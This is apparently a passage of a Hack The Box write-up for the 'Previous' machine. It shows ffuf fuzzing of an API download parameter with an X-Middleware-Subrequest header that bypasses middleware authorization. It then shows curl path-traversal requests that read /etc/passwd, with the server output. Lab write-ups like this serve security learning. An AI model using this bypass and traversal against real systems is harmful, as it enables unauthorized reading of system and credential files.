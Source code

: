 ```console
________________________________________________

 :: Method           : GET
 :: URL              : http://previous.htb/api/download?FUZZ=a
 :: Wordlist         : FUZZ: /usr/share/fuzzDicts/paramDict/AllParam.txt
 :: Header           : X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response words: 2
________________________________________________

example                 [Status: 404, Size: 26, Words: 3, Lines: 1, Duration: 110ms]
:: Progress: [8603/74332] :: Job [1/1] :: 242 req/sec :: Duration: [0:00:25] :: Errors: 0 ::
```

## Exploitation

```console

$ curl -I  http://previous.htb/api/download?example=abc -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'
HTTP/1.1 404 Not Found
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 17 Oct 2025 13:05:34 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 26
Connection: keep-alive
ETag: "c8wflmak5q"
Vary: Accept-Encoding
```

here it can be successfully bypass it.

### LFI

Mostly LFI(Local File Inclusion) found on such type of endpoint so let's try it out in this endpoint

```console

$ curl -I  http://previous.htb/api/download?example=/etc/passwd -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'
HTTP/1.1 404 Not Found
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 17 Oct 2025 13:09:11 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 26
Connection: keep-alive
ETag: "c8wflmak5q"
Vary: Accept-Encoding

$ curl -I  http://previous.htb/api/download?example=../../../etc/passwd -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 17 Oct 2025 13:09:42 GMT
Content-Type: application/zip
Content-Length: 787
Connection: keep-alive
Content-Disposition: attachment; filename="passwd"
```